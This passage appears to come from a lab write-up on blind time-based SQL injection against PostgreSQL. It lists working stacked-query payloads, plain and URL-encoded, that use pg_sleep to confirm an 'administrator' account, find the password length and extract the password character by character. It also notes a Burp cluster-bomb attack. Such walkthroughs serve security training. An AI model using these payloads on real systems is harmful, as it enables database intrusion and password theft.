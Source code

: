Then query to check if user administrator exists&#x20;

```
'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-
#OR
';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

Now we need to check how long is the password:

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
#OR
';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

So now the query should look something like this:

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
#OR
'%3bSELECT+CASE+WHEN+(username%3d'administrator'+AND+SUBSTRING(password,1,1)%3d'a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

I put the cluster bomb, launch the attack and filter out the requests:

<figure><img src="../.gitbook/assets/image (842).png" alt=""><figcaption></figcaption></figure>

i put a time sleep of 4 seconds so anything in that range and above is probably correct

and for better filter:
